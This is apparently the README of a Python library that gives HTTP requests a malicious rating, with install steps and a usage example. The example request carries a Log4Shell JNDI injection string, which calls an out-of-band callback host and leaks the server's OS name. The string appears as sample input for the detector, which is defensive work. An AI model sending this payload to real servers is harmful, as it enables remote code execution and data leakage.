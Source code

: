 # httpanalyzer

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'accept-encoding': 'gzip, deflate, br',
     'accept-language': 'en-US,en;q=0.5',
     'connection': 'keep-alive',
     'host': '127.0.0.1:80',
     'user-agent': 'curl/7.82.0'},
    '159.223.205.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
